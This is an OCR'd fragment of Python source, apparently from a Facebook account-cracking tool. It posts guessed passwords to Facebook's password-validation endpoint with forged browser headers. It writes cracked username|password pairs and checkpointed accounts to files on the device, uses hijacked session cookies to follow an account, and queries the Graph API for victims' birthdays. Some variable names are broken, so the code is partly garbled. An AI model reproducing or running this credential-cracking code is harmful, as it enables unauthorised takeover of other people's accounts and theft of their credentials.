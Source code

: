                     "x-requested-with":"XMLHttpRequest",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False)

                if 'c_user' in session.cookies.get_dict():

                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                    print(f"\r{H} [TANJID-ok 🤫] {user} | {pw}")

                    wrt = '%s|%s' % (user,pw)

                    ok.append(wrt)

                    open('/sdcard/TANJID_OK.txt' , 'a').write('%s\n' % wrt)

                    self.follow(session,coki)

                    break

                elif 'checkpoint' in session.cookies.get_dict():

                    try:

                        tokenz = open('.token.txt').read()

                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={token}').json()['birthday']

                        month, day, year = cp_ttl.split('/')

                        month = bulan_ttl[month]

                        

                        wrt = '%s|%s' % (use,w)

                        cp.append(wrt)

                        open('/sdcard/TANJID_CP.txt' , 'a').write('%s\n' % wrt)

                        break

                    except (KeyError, IOError):

                        month = ''
